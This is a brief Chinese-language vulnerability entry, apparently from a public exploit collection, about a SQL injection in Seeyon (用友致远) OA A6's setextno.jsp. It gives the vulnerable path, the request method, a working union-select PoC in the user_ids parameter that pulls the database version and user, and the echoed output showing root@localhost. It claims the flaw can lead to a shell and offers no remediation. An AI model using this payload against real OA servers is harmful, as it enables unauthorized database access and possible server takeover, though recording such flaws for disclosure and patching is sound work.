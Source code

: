 ```yaml
---
title: "致远OA A6 setextno.jsp sql注入漏洞"
id: zhfly3348
---
```


# 致远OA A6 setextno.jsp sql注入漏洞

## 一、漏洞简介

用友致远A6协同系统SQL注入，union可shell

## 二、漏洞影响

致远OA A6

## 三、复现过程

##### 漏洞位置:

```
http://www.0-sec.org/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp 
```

##### 漏洞详情:

```
版本：A6用友致远A6协同系统SQL注入，union可shell 
```

##### 请求方式:

```
Get 
```

##### POC:

```
http://www.0-sec.org/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(17) union all select 1,2,@@version,user()%23 
```

##### 回显内容

```
5.0.41-community-nt 
分机号root@localhost 
```
